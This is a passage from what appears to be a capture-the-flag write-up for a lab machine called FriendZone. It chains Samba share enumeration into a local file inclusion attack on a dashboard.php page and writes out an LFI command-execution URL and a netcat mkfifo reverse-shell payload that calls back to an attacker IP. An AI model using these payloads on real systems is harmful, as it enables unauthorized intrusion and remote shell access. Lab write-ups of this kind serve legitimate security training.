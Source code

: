 from 
```
        Files           Disk      FriendZone Samba Server Files /etc/Files
        general         Disk      FriendZone Samba Server Files
        Development     Disk      FriendZone Samba Server Files
```

So I guess `Development` would be also in the path `/etc/Development`
The payload would be 
`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../etc/Development/cmd&cmd=id`
![](images/Pasted%20image%2020241210061605.png)
here we go, we catch them.
If we want to get a reverse shell, the payload would be
```
https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/cmd&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.10 443 >/tmp/f (remembering to encode the & as %26
```

`https://admin.friendzoneportal.red/`